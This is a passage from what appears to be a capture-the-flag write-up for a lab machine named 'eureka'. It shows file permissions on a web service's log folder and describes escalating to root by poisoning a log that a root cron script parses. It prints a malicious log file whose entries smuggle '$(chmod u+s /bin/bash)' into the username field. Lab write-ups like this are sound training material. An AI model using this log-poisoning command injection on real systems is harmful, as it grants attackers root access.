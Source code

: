 Within the folders itself the same picture appeared.

```shell
miranda-wise@eureka:/var/www/web/user-management-service$ ls -lah
total 60K
drwxrwxr-x 6 www-data     developers   4.0K Apr 28 09:44 .
drwxrwxr-x 7 www-data     developers   4.0K Mar 18 21:19 ..
-rwxrwxr-x 1 www-data     developers    395 Aug  3  2024 .gitignore
-rwxrwxr-x 1 www-data     developers   1.8K Aug  3  2024 HELP.md
drwxrwxr-x 3 www-data     developers   4.0K Apr 28 11:25 log
drwxrwxr-x 3 www-data     developers   4.0K Aug  3  2024 .mvn
-rwxrwxr-x 1 www-data     developers    11K Aug  3  2024 mvnw
-rwxrwxr-x 1 www-data     developers   6.8K Aug  3  2024 mvnw.cmd
-rwxrwxr-x 1 www-data     developers   2.4K Aug  3  2024 pom.xml
-rwxrwxr-x 1 miranda-wise miranda-wise  291 Apr 28 09:44 script.sh
drwxrwxr-x 4 www-data     developers   4.0K Aug  3  2024 src
drwxrwxr-x 9 www-data     developers   4.0K Mar 19 22:07 target
```

However inside the `/log` folder only `www-data` had permission to change the content of the files because of the `rw-` permissions set on those.

```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ ls -lah
total 48K
drwxrwxr-x 3 www-data developers 4.0K Apr 28 11:25 .
drwxrwxr-x 6 www-data developers 4.0K Apr 28 09:44 ..
-rw-rw-r-- 1 www-data www-data    17K Apr 28 11:42 application.log
-rw-rw-r-- 1 www-data www-data   6.5K Apr 23 07:36 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data   6.5K Apr 28 07:53 application.log.2025-04-23.0.gz
drwxrwxr-x 2 www-data www-data   4.0K Apr  9 18:20 archive
```

## Privilege Escalation to root

The fact that `developers` had `full control` over the `folder` containing the `logfiles` enabled us not edit the files but `replace` them!

So we analyzed the script we found within the session of `oscar190` and noticed that when the script got `executed` by `root`, it used took whatever was inserted as `username` and printed it without any further checks.

That meant it was potentially vulnerable to `command injection` if we would be able to `poison the logfiles` parsed while the `cronjob` was running.

Our payload was to simply set the `SUID` bit on `/bin/bash` for an easy `privesc` to `root`.

According to the extensive testing of `ethicxz` we need to have our payload at least two times in our malicious `a.log` in order to having the script execute it before `moveing` it to `application.log` and therefore overwriting the original file.

```shell
miranda-wise@eureka:/var/www/web/user-management-service/log$ cat a.log
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
2025-04-27 18:00:00 INFO LoginSuccessLogger: '$(chmod u+s /bin/bash)'
```
